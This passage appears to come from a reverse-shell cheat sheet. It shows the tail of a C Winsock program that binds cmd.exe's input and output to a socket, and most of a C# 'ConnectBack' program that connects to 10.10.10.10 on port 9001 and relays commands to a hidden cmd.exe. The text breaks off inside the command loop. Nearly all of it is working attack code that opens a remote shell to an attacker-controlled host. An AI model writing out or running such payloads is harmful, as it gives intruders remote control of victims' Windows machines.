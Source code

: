```c

    WSAConnect(Winsock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&ini_processo, 0, sizeof(ini_processo));
    ini_processo.cb = sizeof(ini_processo);
    ini_processo.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW; 
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    TCHAR cmd[255] = TEXT("cmd.exe");

    CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    return 0;
}
```


## C\#
```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient("10.10.10.10", 9001))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
```